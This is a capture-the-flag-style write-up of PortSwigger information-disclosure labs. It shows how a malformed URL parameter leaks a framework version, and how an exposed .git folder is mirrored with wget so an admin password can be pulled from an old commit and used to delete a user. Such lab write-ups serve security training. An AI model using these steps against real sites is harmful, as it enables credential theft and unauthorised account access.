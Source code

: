# Information disclosure vulnerabilities

Get details at [here](https://portswigger.net/web-security/information-disclosure)

---

[Lab 1](https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-in-error-messages): Information leak in error messages

Description of this lab: obtain and submit the version number of this framework

Go to any post and modify url with unique symbol like this `example.com/product?productId=!` and it returns a lot of errors and show version of framework `Apache Struts 2 2.3.31`, return homepage and submit with version we found, then solved the lab.

[Lab 2](#)

[Lab 3](#)

[Lab 4](#)

[Lab 5](https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-in-version-control-history): Information leak in version control history

Description of this lab: obtain the password for the administrator user then log in and delete Carlos's account, exploit version control history

The information of version control history is in folder .git, try to modify url `example.com/.git` and we got a file manager. Using `wget -r` (save data as directory) in Linux distro to get `.git` file. Firstly, use `git status`, we can see that, `admin.conf` and `admin_panel.php`. We need to see old commits. Nextly, use `git log` and it returns this result:

```
    commit 03936237f9151467ed926618e388a2017b88a1e7 (HEAD -> master)
    Author: Carlos Montoya <carlos@evil-user.net>
    Date:   Tue Jun 23 14:05:07 2020 +0000

        Remove admin password from config

    commit 68155dd4dfccb8a580d95b16db1b68d7b963ddc0
    Author: Carlos Montoya <carlos@evil-user.net>
    Date:   Mon Jun 22 16:23:42 2020 +0000

        Add skeleton admin panel
```

Then, see commit `68155dd4dfccb8a580d95b16db1b68d7b963ddc0` with `git show 68155dd4dfccb8a580d95b16db1b68d7b963ddc0`

```
    commit 68155dd4dfccb8a580d95b16db1b68d7b963ddc0
    Author: Carlos Montoya <carlos@evil-user.net>
    Date:   Mon Jun 22 16:23:42 2020 +0000

        Add skeleton admin panel

    diff --git a/admin.conf b/admin.conf
    new file mode 100644
    index 0000000..12f1f74
    --- /dev/null
    +++ b/admin.conf
    @@ -0,0 +1 @@
    +ADMIN_PASSWORD=ghjjaciebqxzptna80o9
    diff --git a/admin_panel.php b/admin_panel.php
    new file mode 100644
    index 0000000..8944e3b
    --- /dev/null
    +++ b/admin_panel.php
    @@ -0,0 +1 @@
    +<?php echo 'TODO: build an amazing admin panel, but remember to check the password!'; ?>
    \ No newline at end of file
```
This result including admin password `ghjjaciebqxzptna80o9`, log in with this password and delete carlos and solved the lab.